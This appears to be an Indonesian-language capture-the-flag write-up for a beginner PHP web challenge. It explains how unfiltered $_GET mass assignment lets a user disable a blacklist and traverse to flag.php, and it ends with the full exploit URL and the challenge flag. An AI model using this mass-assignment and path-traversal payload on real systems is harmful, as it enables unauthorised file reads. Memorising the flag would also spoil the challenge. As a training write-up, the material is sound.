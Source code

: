# philtered – Web – Beginner

**URL:**  
https://web-philtered-0a2005e5b9bf.2025.ductf.net/

---

## Deskripsi

> Can you phigure this one out?

Kita diberikan source code aplikasi web PHP sederhana. Tujuan dari challenge ini adalah mendapatkan flag yang berada di file `flag.php`.

---

## Analisis Source Code

File utama `index.php` menjalankan kode berikut:

```
$loader = new FileLoader(); 
$loader->assign_props($_GET);
```
Hal ini berarti semua input dari URL (melalui $_GET) akan digunakan untuk mengatur properti pada objek FileLoader.
```
public function contains_blacklisted_term($value) {
    if (!$this->allow_unsafe) {
        foreach ($this->blacklist as $term) {
            if (stripos($value, $term) !== false) {
                return true;    
            }
        }
    }
    return false;
}
```
Blacklist hanya aktif jika allow_unsafe == false. Jika kita menyetel allow_unsafe = 1, maka fungsi ini akan dilewati dan tidak ada filter terhadap input seperti ../, flag, dll.
```
class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}
```
Properti path dan data_folder menentukan file yang akan dibaca oleh fungsi load() berikut:
```
public function load() {
    return file_get_contents($this->config->data_folder . $this->config->path);
}
```

---

## Teknik Eksploitasi
### 1. Bypass Blacklist
- Set allow_unsafe=1 untuk melewati pengecekan blacklist.
### 2. Manipulasi Config
- Dengan parameter config[path]=../flag.php akan mengubah isi $loader->config->path menjadi '../flag.php';
- Kemudian fungsi load() akan menjalankan file_get_contents('data/../flag.php'); Karena data/../flag.php secara teknis adalah path valid menuju file flag.php, maka file tersebut berhasil dibaca.

### Payload Final
https://web-philtered-0a2005e5b9bf.2025.ductf.net/index.php?allow_unsafe=1&config[path]=../flag.php

### Flag
Buka URL di atas, lalu lihat View Page Source di browser.

> DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}